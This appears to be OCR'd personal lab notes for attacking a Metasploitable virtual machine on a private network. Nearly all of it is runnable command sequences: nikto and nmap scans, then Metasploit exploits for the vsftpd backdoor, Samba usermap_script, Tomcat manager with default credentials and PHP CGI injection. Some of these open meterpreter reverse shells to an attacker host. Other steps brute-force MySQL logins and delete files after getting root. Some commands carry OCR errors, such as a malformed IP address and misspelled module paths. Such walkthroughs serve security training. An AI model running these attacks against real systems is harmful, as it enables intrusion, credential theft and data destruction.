 ip a
sudo apt-get install nikto (If nikto is not installed - convert to NAT)
nikto -h http://192.168.56.101/multillidae/

nmap -sS -sV 192.168.56.101
--------> VSFTPD Backdoor Command Execution
msfconsole -q
  search vsftpd
  use exploit/unix/ftp/vsftpd_234_backdoor
  info
  show options
  set RHOST 192.168.56.101
  exploit
          <We should get found shell as output in the terminal>
          <Now we have root access of meta machine>
          <Now we have to go to meta>
  cd home
  ls
  cd msfadmin
  ls
  cat file_name.txt
  rm file_name.txt

--------> Samba username map script command Execution
msfconsole -q 
  search samba
  use exploit/multi/samba/usermap_script
  show options
  set RHOST 192.168.56.101
  exploit

msfconsole -q 
  search samba
  use auxiliry/admin/smb/samba_symlink_trasversal
  show options
  set RHOST 192.168.56.101
  exploit
  exit
  smbclient -L//192.168.56.101/tmp

--------> MySQL Login Utility
msfconsole -q
  search mysql
  use auxiliary/scanner/mysql/mysql_login
  show options
  set BLANK_PASSWORDS true
  set PASS_FILE/root/Desktop/username.txt     <password.txt>
  set USER_FILE/root/Desktop/username.txt
  set RHOST 192.168.56.101
  exploit
  mysql -h 192.168.565.101 -u root -p

-------->  Tomcat 
msfconsole -q
  search tomcat
  use exploit/multi/http/tomcat_mgr_deploy
  set PAYLOAD java/meterpreter/reverse_tcp
  show options
  set RHOST 192.168.56.101
  set LHOST 192.168.56.102
  set USERNAME tomcat
  set PASSWORD tomcat
  set target 0
  set RPORT 8180
  exploit

--------> Apache (CGI Argument  Injection)
msfconsole -q
  search php
  use exploit/multi/http/php_cgi_arg_injection
  set PAYLOAD php/meterpreter/reverse_tcp
  show options
  set RHOST 192.168.56.101
  set LHOST 192.168.56.102
  run
  getuid
